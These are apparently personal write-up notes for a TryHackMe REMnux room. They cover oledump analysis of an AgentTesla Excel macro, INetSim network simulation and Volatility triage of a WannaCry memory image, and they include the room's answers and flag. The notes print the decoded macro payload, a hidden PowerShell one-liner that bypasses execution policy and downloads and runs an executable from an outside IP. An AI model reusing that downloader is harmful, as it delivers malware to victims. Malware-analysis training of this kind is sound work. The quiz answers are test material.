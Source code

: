 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/re-mnux-getting-started/","created":"2024-11-26T11:23:00.000-05:00","updated":"2025-02-06T21:54:21.188-05:00"}
---
```


# Task 3 - File Analysis

- Using tool called “oledump.py” for forensic analysis for OLE2 files (Microsoft proprietary)
	- OLE2, stores multiple datatypes within a single file

![image 38.png](/img/user/TryHackMe/THM_Images/ee14bdbb3f75e30eb51e9291b8091e97.png)

Check out the datastreams (A#) with given letters, (A4: M [macro])

```Bash
oledump.py agenttesla.xlsm -s 4
```

![image 39.png](/img/user/TryHackMe/THM_Images/204eee1facbb27df9e9560ed853a2ba1.png)

Doing this produces a result that’s harder to read, so use the “—vbadecompress” flag to make it more human readable

```Bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

![image 40.png](/img/user/TryHackMe/THM_Images/3e7e50f8903591bbaa98134f27176d5f.png)

Focus on the “Sqtnew” file, realized that we can replace both ^ and * character with no characters, (replace with “”).

Can do with CyberChef

![image 41.png](/img/user/TryHackMe/THM_Images/f6119111f8ac4ad6c3971f7eeec1d298.png)

Get the output

> "powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } �PassThru; Invoke-WebRequest -Uri ""[http://193.203.203.67/rt/Doc-3737122pdf.exe](http://193.203.203.67/rt/Doc-3737122pdf.exe)"" -OutFile $TempFile; Start-Process $TempFile;"

This command is the VBA macro that runs once the .xlsm file is open. It opens Powershell in the background and downloads this file through the IP address. It’ll then start running the file.

> [!Question] 
**What Python tool analyzes OLE2 files, commonly called Structured Storage or Compound File Binary Format?**

> [!done] Answer
oledump.py

> [!Question] 
**What tool parameter we used in this task allows you to select a particular data stream of the file we are using it with?**

> [!done] Answer
-s

> [!question] 
**During our analysis, we were able to decode a PowerShell script. What command is commonly used for downloading files from the internet?**

> [!done] Answer
Invoke-WebRequest

> [!question] 
**What file was being downloaded using the PowerShell script?**

> [!done] Answer
Doc-3737122pdf.exe

> [!question] 
**During our analysis of the PowerShell script, we noted that a file would be downloaded. Where will the file being downloaded be stored?**

> [!done] `Answer`
`$TempFile`

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. How many data streams were presented for this file?**

![image 42.png](/img/user/TryHackMe/THM_Images/9f2d47fc366f1123bc564f90b7f15d5c.png)

> [!done] Answer
16

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. At what data stream number does the tool indicate a macro present?**

Based off the screenshot above

> [!done] Answer
8

# Task 4 - Fake Network to Aid Analysis

- INetSim: Internet Services Simulation Suite
	- Observes behaviours of malicious software in it’s network activities

INetSim Config

Do this on the RemuxVM (has the tool)
    
```Bash
sudo nano /etc/inetsim/inetsim.conf
```
    
Change the _dns_default_ip 0.0.0.0_ to the machine IP

![image 43.png](/img/user/TryHackMe/THM_Images/3da78d16985f5785377cb658a4dcac50.png)

![image 44.png](/img/user/TryHackMe/THM_Images/5a6687ce7e3f3ac74c3b6afe333da87d.png)
    
Run the command below to start the tool

```Bash
sudo inetsim
```

![image 45.png](/img/user/TryHackMe/THM_Images/62dc7e7bcf1f8d4d29b885cfc599de89.png)
    
Go back to attack box to and try to go to it’s IP address to see the INetSim’s homepage

![image 46.png](/img/user/TryHackMe/THM_Images/6de4163eee1390e38c7389e4f7acdfea.png)


Common behaviours of malware is to download binary or scripts, can mimic it with the command
    
```Bash
sudo wget https://10.10.153.203/second_payload.zip --no-check-certificate
```

![image 47.png](/img/user/TryHackMe/THM_Images/452fdab3ce8fa8bda5f9849d80d5ebcc.png)
    
Back on the Remuix, can stop it and it’ll create a report on connections, Usually saved in `var/log/inetsim/report/`

![image 48.png](/img/user/TryHackMe/THM_Images/4d6caa0cbb07f09e8de498596e3fb44c.png)

> [!Question]
> 
> **Download and scan the file named `flag.txt` from the terminal using the command `sudo wget https://10.10.153.203/flag.txt --no-check-certificate`. What is the flag?**

![image 49.png](/img/user/TryHackMe/THM_Images/f903580aae1216681b504e231cfdd592.png)

> [!done] Answer
Tryhackme{remnux_edition}

> [!Question]
> 
>**After stopping the inetsim, read the generated report. Based on the report, what URL Method was used to get the file flag.txt?**

> [!done] Answer
GET

# Task 5 - Memory Investigation: Evidence Preprocessing

- Volatility
	- Extracts artefacts from memory images
	- Saves output to txt for further examinations
	- This room focus on windows plugins like:
		- windows.pstree.PsTree
		- windows.pslist.PsList
		- windows.cmdline.CmdLine
		- windows.filescan.FileScan
		- windows.dlllist.DllList
		- windows.malfind.Malfind
		- windows.psscan.PsScan

Need to go to directory with .mem file and run the command 
	
```Bash
vol3 -f wcry.mem <plugin-here>

Example: vol3 -f wcry.mem windows.pstree.PsTree
```

Can do a loop statement to run the process in bulk
    
```Bash
for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; done
```

Can preprocess image with Linux **strings** utility, Extracts ASCII, 16-bit little-endian, and 16-bit big-endian strings.
    
```Bash
strings wcry.mem > wcry.strings.ascii.txt
strings -e l wcry.mem  > wcry.strings.unicode_little_endian.txt
strings -e b wcry.mem > wcry.strings.unicode_big_endian.txt
```
    

> [!question] 
**What plugin lists processes in a tree based on their parent process ID?**

> [!done] Answer
PsTree

> [!question] 
**What plugin is used to list all currently active processes in the machine?**

> [!done] Answer
PsList

> [!question] 
**What Linux utility tool can extract the ASCII, 16-bit little-endian, and 16-bit big-endian strings?**

> [!done] Answer
strings

> [!question] 
**By running vol3 with the Malfind parameter, what is the first (1st) process identified suspected of having an injected code?**

![1000](/img/user/TryHackMe/THM_Images/874a8ae56193006c240195f1372c8b3d.png)

> [!done] Answer
csrss.exe

> [!question] 
**Continuing from the previous question (Question 6), what is the second (2nd) process identified suspected of having an injected code?**

> [!done] Answer
winlogon.exe

> [!question] 
**By running vol3 with the DllList parameter, what is the file path or directory of the binary @WanaDecryptor@.exe?**

![image 51.png](/img/user/TryHackMe/THM_Images/a97a19fae91c6b6db0b8a60583f5540e.png)

![image 52.png](/img/user/TryHackMe/THM_Images/dac14b46be2f2c04305d76d93a8a95d5.png)

> [!done] Answer
`C:\Intel\ivecuqmanpnirkt615`